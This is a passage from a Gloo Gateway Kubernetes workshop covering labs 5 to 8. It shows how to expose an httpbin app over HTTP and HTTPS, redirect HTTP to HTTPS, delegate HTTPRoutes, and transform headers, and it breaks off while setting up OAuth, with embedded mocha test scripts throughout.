  echo "Waiting for PROXY_IP to be assigned... Attempt $((RETRY_COUNT + 1))/$MAX_RETRIES"
  PROXY_IP=$(kubectl --context ${CLUSTER1} -n gloo-system get svc gloo-proxy-http -o jsonpath='{.status.loadBalancer.ingress[0].ip}{.status.loadBalancer.ingress[0].hostname}')
  RETRY_COUNT=$((RETRY_COUNT + 1))
  sleep 5
done

# if PROXY_IP is a hostname, resolve it to an IP address
if [[ -n "$PROXY_IP" && $PROXY_IP =~ [a-zA-Z] ]]; then
  while [[ -z "$IP" && $RETRY_COUNT -lt $MAX_RETRIES ]]; do
    echo "Waiting for PROXY_IP to be propagated in DNS... Attempt $((RETRY_COUNT + 1))/$MAX_RETRIES"
    IP=$(dig +short A "$PROXY_IP" | awk '/^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+$/ {print; exit}')
    RETRY_COUNT=$((RETRY_COUNT + 1))
    sleep 5
  done
else
  IP="$PROXY_IP"
fi

if [[ -z "$PROXY_IP" ]]; then
  echo "WARNING: Maximum number of retries reached. PROXY_IP could not be assigned."
else
  export PROXY_IP
  export IP
  echo "PROXY_IP has been assigned: $PROXY_IP"
  echo "IP has been resolved to: $IP"
fi
-->

Configure your hosts file to resolve httpbin.example.com with the IP address of the proxy by executing the following command:

```bash

./scripts/register-domain.sh httpbin.example.com ${PROXY_IP}

```


Try to access the application through HTTP:

```bash,noexecute
curl http://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "http"
    ],
    "X-Request-Id": [
      "d0998a48-7532-4eeb-ab69-23cef22185cf"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:38917",
  "url": "http://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTP", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `http://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/expose-httpbin/tests/http.test.js.liquid from lab number 5"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 5"; exit 1; }
-->

Now, let's secure the access through TLS.
Let's first create a private key and a self-signed certificate:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"
```

Then, you have to store it in a Kubernetes secret running the following command:

```bash
kubectl create --context ${CLUSTER1} -n gloo-system secret tls tls-secret --key tls.key \
   --cert tls.crt
```
Update the `Gateway` resource to add HTTPS listeners.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
kind: Gateway
apiVersion: gateway.networking.k8s.io/v1
metadata:
  name: http
  namespace: gloo-system
spec:
  gatewayClassName: gloo-gateway
  listeners:
  - protocol: HTTPS
    port: 443
    name: https-httpbin
    hostname: httpbin.example.com
    tls:
      mode: Terminate
      certificateRefs:
        - name: tls-secret
          kind: Secret
    allowedRoutes:
      namespaces:
        from: All
  - protocol: HTTPS
    port: 443
    name: https
    tls:
      mode: Terminate
      certificateRefs:
        - name: tls-secret
          kind: Secret
    allowedRoutes:
      namespaces:
        from: All
  - protocol: HTTP
    port: 80
    name: http
    allowedRoutes:
      namespaces:
        from: All
EOF
```

As you can see, we've added 2 new listeners. One for the `httpbin.example.com` hostname and one for all the other hostnames.

We used the same secret to keep things simple, but the goal is to demonstrate we can have different HTTPS listeners.

Update the `HTTPRoute` resource to expose the `httpbin` app through HTTPS.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - backendRefs:
        - name: httpbin1
          port: 8000
EOF
kubectl --context ${CLUSTER1} -n gloo-system rollout status deploy gloo-proxy-http
```


Try to access the application through HTTPS (might take a few seconds to be ready):

<!--bash
echo -n Wait for up to 2 minutes until the url is ready...
RETRY_COUNT=0
MAX_RETRIES=30
while [[ $RETRY_COUNT -lt $MAX_RETRIES ]]; do
  echo "Attempt $((RETRY_COUNT + 1))/$MAX_RETRIES"
  ret=`curl -k -s -o /dev/null -w %{http_code} https://httpbin.example.com/get`
  if [ "$ret" -eq "200" ]; then
    break
  else
    echo "Response was: $ret"
    echo "Retrying in 4 seconds..."
  fi
  RETRY_COUNT=$((RETRY_COUNT + 1))
  sleep 4
done
-->

```bash,noexecute
curl -k https://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "8e61c480-6373-4c38-824b-2bfe89e79d0c"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:52655",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/expose-httpbin/tests/https.test.js.liquid from lab number 5"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 5"; exit 1; }
-->


The team in charge of the gateway can create an `HTTPRoute` to automatically redirect HTTP to HTTPS:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: redirect-http-to-https
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: http
  hostnames:
    - "httpbin.example.com"
  rules:
    - filters:
      - type: RequestRedirect
        requestRedirect:
          scheme: https
EOF
```

Try to access the application through HTTP:

```bash,noexecute
curl -k http://httpbin.example.com/get -L
```

The `-L` option instructs curl to follow the redirect. Without it, you would get a `302` response with the `location` header set to the HTTPS url.

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "2c7454cb-c2f8-428c-9c3b-f51822475327"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:52655",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("location header correctly set", () => {
  it('Checking text \'location\'', () => helpersHttp.checkHeaders({ host: `http://httpbin.example.com`, path: '/get', expectedHeaders: [{'key': 'location', 'value': `https://httpbin.example.com/get`}]}));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/expose-httpbin/tests/redirect-http-to-https.test.js.liquid from lab number 5"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 5"; exit 1; }
-->


## Lab 6 - Delegate with control <a name="lab-6---delegate-with-control-"></a>

The team in charge of the gateway can create a parent `HTTPRoute` to delegate the routing of a domain or a path prefix (for example) to an application team.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: '*'
          namespace: httpbin
          group: gateway.networking.k8s.io
          kind: HTTPRoute
EOF
```

The team in charge of the httpbin application can now create a child `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can still access the application through HTTPS:

```bash,noexecute
curl -k https://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "11037632-92c8-43c7-b919-7d7c7217c564"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:51121",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/delegation/tests/https.test.js.liquid from lab number 6"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 6"; exit 1; }
-->

In the previous example, we've used a simple `/` prefix matcher for both the parent and the child `HTTPRoute`.

But we'll often use the delegation capability to delegate a specific path to an application team.

For example, let's say the team in charge of the gateway wants to delegate the `/status` prefix to the team in charge of the httpbin application.

Let's update the parent `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /status
      backendRefs:
        - name: '*'
          namespace: httpbin
          group: gateway.networking.k8s.io
          kind: HTTPRoute
EOF
```

Now, we can update the child `HTTPRoute` to match requests with the `/status/200` path:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: Exact
          value: /status/200
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can access the `/status/200` path:

```bash,noexecute
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid from lab number 6"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 6"; exit 1; }
-->

In the child `HTTPRoute` we've indicated the absolute path (which includes the parent path), but instead we can inherite the parent matcher and use a relative path:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
  annotations:
    delegation.gateway.solo.io/inherit-parent-matcher: "true"
spec:
  rules:
    - matches:
      - path:
          type: Exact
          value: /200
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can still access the `/status/200` path:

```bash,noexecute
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid from lab number 6"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 6"; exit 1; }
-->

The team in charge of the httpbin application can also take advantage of the `parentRefs` option to indicate which parent `HTTPRoute` can delegate to its own `HTTPRoute`.

That's why you don't need to use `ReferenceGrant` objects when using delegation.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
  annotations:
    delegation.gateway.solo.io/inherit-parent-matcher: "true"
spec:
  parentRefs:
    - name: httpbin
      namespace: gloo-system
      group: gateway.networking.k8s.io
      kind: HTTPRoute
  rules:
    - matches:
      - path:
          type: Exact
          value: /200
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can still access the `/status/200` path:

```bash,noexecute
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid from lab number 6"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 6"; exit 1; }
-->

Delegation offers another very nice feature. It automatically reorders all the matchers to avoid any short-circuiting.

Let's add a second child `HTTPRoute` which is matching for any request starting with the path `/status`, but sends the requests to the second httpbin service.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin-status
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /status
      backendRefs:
        - name: httpbin2
          port: 8000
EOF
```

If the matcher for `/status` is positioned before the matcher for `/status/200`, the latter would be ignored. So, all the requests would be sent to the second httpbin service.

Check you can still access the `/status/200` path:

```bash,noexecute
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

You can use the following command to validate the request has still been handled by the first httpbin application.

```bash,noexecute
kubectl logs --context ${CLUSTER1} -n httpbin -l app=httpbin1 | grep curl | grep 200
```

You should get an output similar to:

```log,nocopy
time="2024-07-22T16:02:51.9508" status=200 method="GET" uri="/status/200" size_bytes=0 duration_ms=0.03 user_agent="curl/7.81.0" client_ip=10.101.0.13:58114
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid from lab number 6"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 6"; exit 1; }
-->

Check you can now also access the status `/status/201` path:

```bash,noexecute
curl -k https://httpbin.example.com/status/201 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
201
```

You can use the following command to validate this request has been handled by the second httpbin application.

```bash,noexecute
kubectl logs --context ${CLUSTER1} -n httpbin -l app=httpbin2 | grep curl | grep 201
```

You should get an output similar to:

```log,nocopy
time="2024-07-22T16:04:53.3189" status=201 method="GET" uri="/status/201" size_bytes=0 duration_ms=0.02 user_agent="curl/7.81.0" client_ip=10.101.0.13:52424
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'201\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/201', retCode: 201 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/delegation/tests/status-201.test.js.liquid from lab number 6"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 6"; exit 1; }
-->

Let's delete the latest `HTTPRoute` and apply the original ones:

```bash
kubectl delete --context ${CLUSTER1} -n httpbin httproute httpbin-status

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: '*'
          namespace: httpbin
          group: gateway.networking.k8s.io
          kind: HTTPRoute
EOF

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/delegation/tests/https.test.js.liquid from lab number 6"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 6"; exit 1; }
-->


## Lab 7 - Modify the requests and responses <a name="lab-7---modify-the-requests-and-responses-"></a>

The Kubernetes Gateway API provides different options to add/update/remove request and response headers.

Let's start with request headers.

Update the `HTTPRoute` resource to do the following:
- add a new header `Foo` with the value `bar`
- update the value of the header `User-Agent` to `custom`
- remove the `To-Remove` header

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
      filters:
        - type: RequestHeaderModifier
          requestHeaderModifier:
            add:
              - name: Foo
                value: bar
            set:
              - name: User-Agent
                value: custom
            remove:
              - To-Remove
EOF
```

Try to access the application (with the `To-Remove` request header added):

```bash,noexecute
curl -k https://httpbin.example.com/get -H 'To-Remove: whatever'
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    ...
    "Foo": [
      "bar"
    ],
    ...
    "User-Agent": [
      "custom"
    ],
    ...
}
```

The transformations have been applied as expected.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("request transformations applied", () => {
  it('Checking text \'bar\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'bar', match: true }));
  it('Checking text \'custom\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'custom', match: true }));
  it('Checking text \'To-Remove\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'To-Remove', match: false }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/transformations/tests/request-headers.test.js.liquid from lab number 7"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 7"; exit 1; }
-->

Another typical use case is to rewrite the hostname or the path before sending the request to the backend.

Update the `HTTPRoute` resource to do the following:
- rewrite the hostname to `httpbin1.com`
- rewrite the path to `/get`

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /publicget
      backendRefs:
        - name: httpbin1
          port: 8000
      filters:
        - type: URLRewrite
          urlRewrite:
            hostname: httpbin1.com
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /get
EOF
```

Try to access the application:

```bash,noexecute
curl -k https://httpbin.example.com/publicget
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin1.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Envoy-Original-Path": [
      "/publicget"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "1aee27e0-dfab-4b3a-869c-23e3e214440e"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:33021",
  "url": "https://httpbin1.com/get"
}
```


The transformations have been applied as expected.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("request rewrite applied", () => {
  it('Checking text \'httpbin1.com/get\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/publicget', body: 'httpbin1.com/get', match: true }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/transformations/tests/request-rewrite.test.js.liquid from lab number 7"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 7"; exit 1; }
-->


Let's now apply transformations to response headers.

Update the `HTTPRoute` resource to do the following:
- add a new header `Foo` with the value `bar`
- update the value of the header `To-Modify` to `newvalue`
- remove the `To-Remove` header

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
      filters:
        - type: ResponseHeaderModifier
          responseHeaderModifier:
            add:
              - name: Foo
                value: bar
            set:
              - name: To-Modify
                value: newvalue
            remove:
              - To-Remove
EOF
```

Try to access the application (with the `To-Modify` and `To-Remove` response headers added):

```bash,noexecute
curl -k "https://httpbin.example.com/response-headers?to-remove=whatever&to-modify=oldvalue" -I
```

Here is the expected output:

```http,nocopy
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-origin: *
content-type: application/json; charset=utf-8
date: Thu, 20 Jun 2024 17:02:36 GMT
x-envoy-upstream-service-time: 1
server: envoy
x-envoy-decorator-operation: httpbin1.httpbin.svc.cluster.local:8000/*
to-modify: newvalue
foo: bar
```

The transformations have been applied as expected.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("response transformations applied", () => {
  it('Checking \'Foo\' and \'To-Modify\' headers', () => helpersHttp.checkHeaders({ host: `https://httpbin.example.com`, path: '/response-headers?to-remove=whatever&to-modify=oldvalue', expectedHeaders: [{'key': 'foo', 'value': 'bar'}, {'key': 'to-modify', 'value': 'newvalue'}]}));
  it('Checking text \'To-Remove\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/response-headers?to-remove=whatever&to-modify=oldvalue', body: 'To-Remove', match: false }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/transformations/tests/response-headers.test.js.liquid from lab number 7"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 7"; exit 1; }
-->

Let's apply the original `HTTPRoute` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

All these transformations are great, but there are many cases where more flexibility is required.

For example, you may want to create a new header from a value of another header.

Gloo Gateway provides some [extensions](https://docs.solo.io/gateway/latest/traffic-management/transformations/) to manipulate requests and responses in a more advanced way.

Let's extract the product name from the `User-Agent` header (getting rid of the product version and comments).

To do that we need to create a Gloo Gateway `RouteOption` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin
  options:
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            transformationTemplate:
              extractors:
                client:
                  header: 'User-Agent'
                  regex: '^([^/\s]+).*'
                  subgroup: 1
              headers:
                x-client:
                  text: "{{ client }}"
EOF
```

Try to access the application:

```bash,noexecute
curl -k https://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Client": [
      "curl"
    ],
    "X-Envoy-Expected-Rq-Timeout-Ms": [
      "15000"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "49dd1010-9388-4d50-b4c7-298cec409f3d"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:48727",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("request transformation applied", () => {
  it('Checking text \'X-Client\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{key: 'User-agent', value: 'curl/8.5.0'}], body: 'X-Client', match: true }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/transformations/tests/x-client-request-header.test.js.liquid from lab number 7"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 7"; exit 1; }
-->

As you can see, we've created a new header called `X-Client` by extracting some data from the `User-Agent` header using a regular expression.

And we've targetted the `HTTPRoute` using the `targetRefs` of the `RouteOption` object. With this approach, it applies to all its rules.

Another nice capability of the Gloo Gateway transformation filter is the capability to add a response header from some information present in the request.

For example, we can add a `X-Request-Id` response header with the same value than the `X-Request-Id` request header. The user could use this information to report an issue he had with a specific request, for example.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    stagedTransformations:
      regular:
        responseTransforms:
        - responseTransformation:
            transformationTemplate:
              headers:
                x-request-id:
                  text: '{{ request_header("X-Request-Id") }}'
EOF
```

This time, we haven't used the `targetRefs` option. Instead, we're going to update the `HTTPRoute` object to target the `RouteOption` object. This way you can apply it to a single rule.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Try to access the application:

```bash,noexecute
curl -k "https://httpbin.example.com/get" -I
```

Here is the expected output:

```http,nocopy
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-origin: *
date: Tue, 23 Jul 2024 13:13:53 GMT
x-envoy-upstream-service-time: 0
x-request-id: 67052060-3b22-4782-8078-1344b26a774a
server: envoy
```

You can see the `X-Request-Id` response header has been added correctly.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("response transformation applied", () => {
  it('Checking \'X-Request-Id\' header', () => helpersHttp.checkHeaders({ host: `https://httpbin.example.com`, path: '/get', expectedHeaders: [{'key': 'x-request-id', 'value': '*'}]}));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/transformations/tests/x-request-id-response-header.js.liquid from lab number 7"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 7"; exit 1; }
-->

Let's apply the original `HTTPRoute` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Let's delete the `RouteOption` object:
```bash
kubectl delete --context ${CLUSTER1} -n httpbin routeoption routeoption
```


## Lab 8 - Securing the access with OAuth <a name="lab-8---securing-the-access-with-oauth-"></a>

In this step, we're going to secure the access to the `httpbin` service using OAuth.

First, we need to create an `AuthConfig`, which is a CRD that contains authentication information. We've already got a secret named `oauth` that we can reference in this policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: oauth
  namespace: httpbin
spec:
  configs:
    - oauth2:
        oidcAuthorizationCode:
          appUrl: "https://httpbin.example.com"
          callbackPath: /callback
          clientId: ${KEYCLOAK_CLIENT}
          clientSecretRef:
            name: oauth
            namespace: gloo-system
          issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
